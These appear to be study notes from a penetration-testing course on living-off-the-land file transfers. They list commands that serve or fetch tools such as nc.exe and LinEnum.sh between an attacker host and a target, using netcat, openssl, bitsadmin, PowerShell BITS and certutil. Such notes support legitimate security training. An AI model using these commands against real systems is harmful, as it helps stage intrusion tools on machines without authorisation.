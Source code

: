 # Introduction
This is technically to search for databases like LOLBAS or GTFOBins for applications on Windows and Linux Resepectively to perform upload and download operations

Usually involve us, the attack to host a server.

```shell-session
alakin2504@htb[/htb]$ sudo nc -lvnp 8000

listening on [any] 8000 ...
```

```shell-session
alakin2504@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

Generating a RSA private key
.......................................................................................................+++++
................+++++
writing new private key to 'key.pem
```

```shell-session
alakin2504@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

```shell-session
alakin2504@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Other Common Living off the Land tools

### Bitsadmin Download function

The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.

#### File Download with Bitsadmin

```powershell-session
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

#### Download

```powershell-session
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

### Certutil

Casey Smith ([@subTee](https://twitter.com/subtee?lang=en)) found that Certutil can be used to download arbitrary files. It is available in all Windows versions and has been a popular file transfer technique, serving as a defacto `wget` for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious Certutil usage.

#### Download a File with Certutil

```cmd-session
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```